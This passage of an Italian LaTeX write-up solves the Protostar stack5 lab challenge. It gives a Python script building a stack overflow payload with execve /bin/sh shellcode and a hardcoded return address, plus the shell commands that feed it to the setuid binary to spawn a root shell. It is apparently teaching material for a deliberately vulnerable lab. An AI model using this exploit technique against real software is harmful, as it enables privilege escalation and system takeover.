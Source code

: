 Per capire a che indirizzo si trova lo shellcode ci basta partire dall'indirizzo di EBP e andare (8 + 36 + 28) 72 verso indirizzi più bassi.
Recuperiamo l'indirizzo di EBP in questo modo:
\begin{itemize}
    \item Mettiamo un breakpoint dopo la push \%EBP
    \item Recuperiamo l'indirizzo di EBP con il comando \textcolor{red}{p \$ebp}
    \item Eseguiamo in esadecimale l'operazione EBP - 72
\end{itemize}
\clearpage
A questo punto possiamo scrivere il nostro script python \textbf{stack5.py} come segue:
\begin{mdframed}
    \begin{lstlisting}[style=pythonstyle]
        #!/usr/bin/python
        # Parametri da impostare
        length = 76
        ret = '\x5e\xf7\xff\xbf'
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
        "\x68\x68\x2f\x62\x69\x6e\x89" + \
        "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
        "\xcd\x80\x31\xc0\x40\xcd\x80";
        padding = 'a' * (length - len(shellcode))
        payload = shellcode + padding + ret
        print payload
    \end{lstlisting}
\end{mdframed}

Salviamo l'output dello script in un file nella directory temporanea \textbf{tmp}, con il comando:
\begin{lstlisting}[style=bashstyle]
    python stack5.py > /tmp/payload
\end{lstlisting}
Mandiamo in esecuzione il programma passandogli l'input malizioso appena creato:
\begin{lstlisting}[style=bashstyle]
    /opt/protostar/bin/stack5 < /tmp/payload
\end{lstlisting}
Viene eseguita \textbf{/bin/dash} ma termina immediatamente. Questo perché quando \textbf{/bin/sh} parte, lo stream STDIN è vuoto perché è stato drenato da gets(). Una lettura successiva su STDIN segnala EOF.

La soluzione è quella di mantenere aperto il flusso di STDIN. Possiamo farlo modificando il comando di attacco nel modo seguente:
\begin{lstlisting}[style=bashstyle]
    (cat /tmp/payload; cat) | /opt/protostar/bin/stack5
\end{lstlisting}
Si usano due comandi \textbf{cat}:
\begin{itemize}
    \item Il primo inietta l'input malevolo e attiva la shell
    \item Il secondo accetta input da \textbf{STDIN} e lo inoltra alla shell, mantenendo il flusso \textbf{STDIN} aperto
\end{itemize}
Eseguendo così stack5 viene avviata una shell, che è una shell di root, quindi vinciamo la sfida.

